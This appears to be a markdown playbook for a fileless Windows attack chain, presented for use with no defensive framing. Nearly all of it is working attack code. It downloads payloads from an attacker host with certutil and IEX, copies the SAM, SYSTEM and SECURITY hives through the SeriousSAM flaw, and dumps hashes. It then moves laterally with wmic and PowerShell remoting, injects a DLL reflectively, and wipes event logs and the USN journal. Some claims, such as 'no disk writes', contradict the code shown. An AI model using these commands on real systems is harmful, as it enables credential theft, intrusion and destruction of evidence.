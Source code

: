 
# 🧨 NSFW Fileless Exploitation Chain (Reflective DLL + LOLBins)

## 🔹 Step 1: Staging Payload via Certutil (in-memory)
```powershell
$payload = "$env:TEMP\nsfw.jpg"
certutil -urlcache -split -f "http://attacker-ip/nsfw.jpg" $payload
```

## 🔹 Step 2: Decompress & Extract In-Memory (No Disk Writes)
```powershell
Add-Type -Assembly "System.IO.Compression.FileSystem"
[System.IO.Compression.ZipFile]::ExtractToDirectory($payload, "$env:TEMP\stage")
```

## 🔹 Step 3: Trigger CVE-2021-36934 (SeriousSAM)
```powershell
Copy-Item "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM" "$env:TEMP\SAM"
Copy-Item "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" "$env:TEMP\SYSTEM"
Copy-Item "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY" "$env:TEMP\SECURITY"
```

## 🔹 Step 4: Hash Dumping Filelessly (SecretsDump via RAM Execution)
```powershell
IEX (New-Object Net.WebClient).DownloadString("http://attacker-ip/secretsdump.ps1")
Invoke-SecretsDump -System $system -Security $security -Sam $sam
```

## 🔹 Step 5: Lateral Movement (Pure Fileless)
### ✅ Option 1: `wmic.exe`
```cmd
wmic /node:"192.168.1.10" /user:"admin" /password:"hash_or_pw" process call create "rundll32.exe \\attacker\share\nsfw.dll,#1"
```
### ✅ Option 2: `PowerShell Remoting`
```powershell
Invoke-Command -ScriptBlock { rundll32.exe \\attacker\share\nsfw.dll,#1 } -ComputerName 192.168.1.10 -Credential $cred
```

## 🔹 Step 6: Reflective DLL Injection (In Memory)
```powershell
IEX (New-Object Net.WebClient).DownloadString("http://attacker-ip/Invoke-ReflectivePEInjection.ps1")
Invoke-ReflectivePEInjection -PEUrl "http://attacker-ip/nsfw.dll" -FuncName "DllMain"
```

## 🔹 Step 7: Destruction & Evasion
```cmd
wevtutil cl Security & wevtutil cl Application & fsutil usn deletejournal /D C:
```
